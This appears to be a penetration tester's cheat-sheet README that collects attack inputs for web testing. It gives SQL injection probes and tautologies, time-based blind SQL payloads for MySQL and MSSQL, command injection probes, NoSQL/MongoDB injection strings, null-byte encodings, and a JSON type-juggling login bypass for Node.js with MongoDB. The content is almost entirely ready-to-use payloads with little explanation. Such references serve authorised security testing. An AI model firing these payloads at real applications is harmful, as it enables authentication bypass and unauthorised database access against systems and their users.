

> Collection of things i wish to reference during pentests. None of the data here is mine. Everything is dervied from various sources over the internet. I have tried to reference as much as possible. Please comment below if you would like your work to be referenced.

## Burp Suite Extensions
My complete list of Burpsuite extensions



## Token Conversions

Token to Hex
```bash
echo "token" | base64 -d | xxd -p –u
```
Hex to Token
```bash
echo "nekot" | xxd -r -p | base64
```

## Adding Null Bytes
```plaintext
%00 ,\0, \000, \x00, \z, or \u0000
```
In caret notation the null character is ^@

## SQL Injection

```plaintext
/?q=1
/?q=1'
/?q=1"
/?q=[1]
/?q[]=1
/?q=1`
/?q=1\
/?q=1/'/
/?q=1/!1111'/
/?q=1'||'asd'||'   <== concat string
/?q=1' or '1'='1
/?q=1 or 1=1
/?q='or''='

```

Blind SQL Injection Payloads

```plaintext
MySQL - ‘+SELECT SLEEP(5);+’
MSSQL -  ‘+WAITFOR DELAY ’0:0:5′+’
```

## Command Injection

```plaintext
;echo%201111111
echo%201111111
response.write%20111111
;response.write%20111111
```

## NoSQL Injections

```plaintext
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1'
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1 
```

If a NodeJS application is there with MongoDB where credentials are traveling like below
```plaintext
{“username”:”admin”,”password”:”password”}
```

Always try
```plaintext
{“username”:[0],”password”:true}
```
[https://www.jishuwen.com/d/204G](https://www.jishuwen.com/d/204G) 
